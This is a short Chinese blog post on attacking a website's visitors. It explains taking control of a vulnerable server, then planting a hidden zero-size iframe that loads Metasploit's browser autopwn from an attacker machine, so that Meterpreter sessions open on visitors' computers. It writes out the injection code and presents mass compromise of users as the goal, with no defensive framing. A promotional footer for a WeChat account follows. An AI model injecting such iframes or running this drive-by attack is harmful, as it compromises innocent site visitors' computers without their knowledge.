 ```yaml
---
layout: post
category: curleyg-code-hack
title: 对网站的客户进行渗透
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 对网站的客户进行渗透
lock: need
---
```


# 对网站的客户进行渗透

本次的渗透主要是找到有漏洞的网站，在有漏洞的网站中嵌入隐藏的iFrame，那么访问这个网站的所有系统都会遭受来自browser autopwn服务器的攻击。我们可以利用iFrame注入实现对网站用户的大规模入侵。

**攻击网站的用户**

![img](https://img-blog.csdnimg.cn/20190124193808368.png)

**具体实施**

**首先，我们要获取一个存在漏洞的服务器的控制权限，这一点非常重要**

接着，我们在网站的某个页面中，嵌入类似如下的代码：

```bash
<iframe src="http://192.168.175.128" width=0 height=0 style="hidden" frameborder=0 marginheight=0 marginwidth=0 scrolling=no></iframe>
```

每当有受害者访问网站时，上面的代码就会自动加载iFrame中的恶意browser autopwn。由于这段代码包含了一个iframe标签，它将会从攻击者系统中自动加载browser autopwn。我们需要保存这个文件，并允许用户对网站的访问。

受害者一旦访问了这个网页，browser autopwn将会自动在受害者的计算机上运行。我们必须确保browser autopwn模块正常运行

如果一切顺利，我们将会获得在目标系统中运行的Meterpreter。这种渗透思路是使用目标网站引诱最大数量的受害者，并进入到他们的系统中。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
